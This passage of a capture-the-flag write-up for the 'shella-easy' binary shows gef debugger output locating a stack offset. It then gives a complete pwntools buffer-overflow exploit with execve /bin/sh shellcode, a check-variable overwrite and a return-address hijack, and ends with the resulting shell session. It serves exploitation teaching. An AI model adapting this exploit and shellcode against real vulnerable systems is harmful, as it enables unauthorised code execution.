```
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────

Breakpoint 1, 0x0804853e in main ()
gef➤  search-pattern 15935728
[+] Searching '15935728' in memory
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rwx
  0xffffd020 - 0xffffd028  →   "15935728"
gef➤  i f
Stack level 0, frame at 0xffffd070:
 eip = 0x804853e in main; saved eip = 0xf7defe81
 Arglist at 0xffffd068, args:
 Locals at 0xffffd068, Previous frame's sp is 0xffffd070
 Saved registers:
  ebx at 0xffffd064, ebp at 0xffffd068, eip at 0xffffd06c
```

So we can see that the offset is `0xffffd06c - 0xffffd020 = 0x4c` (which matches the ghidra offset). With that we have everything we need to make the exploit:
```
from pwn import *

target = process('./shella-easy')
#gdb.attach(target, gdbscript = 'b *0x804853e')

# Scan in the first line of text, parse out the infoleak
leak = target.recvline()
leak = leak.strip(b"Yeah I'll have a ")
leak = leak.strip(b" with a side of fries thanks\n")
shellcodeAdr = int(leak, 16)

# Make the payload
payload = b""
# This shellcode is from: http://shell-storm.org/shellcode/files/shellcode-827.php`
payload += b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
payload += b"0"*(0x40 - len(payload)) # Padding to the local_c variable
payload += p32(0xdeadbeef) # Overwrite the local_c variable with 0xdeadbeef
payload += b"1"*8 # Padding to the return address
payload += p32(shellcodeAdr) # Overwrite the return address to point to the start of our shellcode

# Send the payload
target.sendline(payload)
target.interactive()
```

When we run the exploit:
```
$   python3 exploit.py
[+] Starting local process './shella-easy': pid 12687
[*] Switching to interactive mode
$ w
 11:11:34 up  4:08,  1 user,  load average: 0.20, 0.34, 0.35
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               07:08   ?xdm?   6:38   0.02s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu /usr/bin/gnome-session --systemd --session=ubuntu
$ ls
exploit.py  readme.md  shella-easy
$  
```
